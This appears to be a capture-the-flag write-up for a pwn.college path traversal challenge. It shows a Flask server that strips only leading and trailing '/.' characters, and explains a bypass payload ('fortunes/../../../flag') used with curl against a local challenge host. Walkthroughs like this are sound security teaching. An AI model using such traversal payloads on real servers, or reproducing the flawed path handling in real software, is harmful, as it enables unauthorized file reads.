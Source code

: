 &nbsp;

## Path Traversal 2

### Source code
```py title="/challenge/server" showlineNumbers
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/dump", methods=["GET"])
@app.route("/dump/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

This challenge strips the `/.` characters from the beginning and the end of the `<path:path>` string.

```
## Request:
curl "challenge.localhost:80/dump/../../flag"

## Stripped:
../../flag  ==>  flag

## Full path:
/challenge/files/flag
```

Fortunately, there is a `fortunes` directory we can use to our advantage.
If we use `fortunes/../../../flag` as our `<path:path>`, the `/.` characters will not be stripped since thay are no longer trailing or leading the string.

```
hacker@web-security~path-traversal-2:/$ ls /challenge/files/
fortunes  index.html
```
